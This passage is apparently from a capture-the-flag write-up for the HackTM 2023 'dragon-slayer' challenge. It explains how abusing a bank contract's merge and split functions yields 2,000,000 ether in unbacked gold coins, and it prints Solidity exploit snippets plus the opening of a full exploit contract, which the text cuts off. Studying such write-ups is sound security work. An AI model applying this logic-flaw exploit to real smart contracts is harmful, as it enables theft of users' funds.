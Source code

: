 ## Solving the challenge
With the vulnerability above, solving the challenge becomes trivial. We create an attacker contract which does the following:
1. **Obtain a bank note:** As our attacker contract has no gold coins, it cannot call `deposit()`. Instead, we call `merge()` with an empty array:
```solidity
// Get an empty banknote (id 1)
uint[] memory bankNoteIDsFrom = new uint[](0);
bank.merge(bankNoteIDsFrom);
```

2. **Exploit the vulnerability:** We then call `split()` with our empty bank note and `amount = [2_000_000 ether, 0]` to gain `2_000_000 ether` worth of gold coins:
```solidity
// Abuse bank.split() to "borrow" 2,000,000 ether
uint[] memory amounts = new uint[](2);
amounts[0] = goldCoinAmount;
bank.split(1, amounts);
```
1. **Fight the dragon:** In the second callback to `onERC721Received()`, we do the following:
   1. Withdraw our `2_000_000 ether` gold coins from the bank note.
   2. Transfer all gold coins to the knight.
   3. Knight buys items `3` and `4` with all the gold coins.
   4. Knight fights the dragon until its health is 0.
   5. Knight sells items `3` and `4` to gain back the `2_000_000 ether` gold coins. 
   6. Knight deposits the gold coins and transfers it to the attacker contract's bank note. 

## Exploit code
[`Exploit.sol`](https://github.com/MiloTruck/smart-contract/blob/main/ctf/hacktm-2023/dragon-slayer/Exploit.sol), which contains the full exploit code, is as shown:
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "./dragon_slayer_contracts/Setup.sol";
import "./dragon_slayer_contracts/Knight.sol";
import "./dragon_slayer_contracts/Dragon.sol";
import "./dragon_slayer_contracts/Bank.sol";
import "./dragon_slayer_contracts/GoldCoin.sol";

contract Exploit {
    // Challenge contracts
    Setup public setup;
    Knight public knight;
    Dragon public dragon;
    Bank public bank;
    GoldCoin public goldCoin;

    // Counts the number of times onERC721Received is called
    uint256 hitCount;

    // Amount of gold coins required to solve the challenge
    uint256 constant goldCoinAmount = 2_000_000 ether;

    constructor(Setup _setup) {
        // Initialize challenge contracts
        setup = _setup;
        knight = setup.knight();
        dragon = knight.dragon();
        bank = knight.bank();
        goldCoin = bank.goldCoin();

        // Claim ownership of Knight contract
```
